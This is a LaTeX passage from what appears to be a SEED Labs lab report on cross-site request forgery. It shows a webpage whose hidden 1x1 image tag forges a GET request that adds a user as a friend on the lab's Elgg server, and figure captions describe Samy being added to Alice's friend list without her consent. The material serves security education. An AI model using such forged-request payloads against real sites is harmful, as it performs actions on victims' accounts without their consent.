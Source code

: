 \subsection{Task 2 --- CSRF Attack using GET Request}\label{sec:attack_get_req}
%
\begin{lstlisting}[language=html, caption= Content of the webpage forging an
    HTTP GET request for adding a friend., label={lst:html_add_friend}]
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Add_friend_forging_HTTP_GET.png}
    \caption{Samy is now in the friend list of Alice without her acceptance.}
    \label{fig:friend_list}
\end{figure}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Samy_profile.png}
    \caption{Samy profile page.}
    \label{fig:samy_profile}
\end{figure}

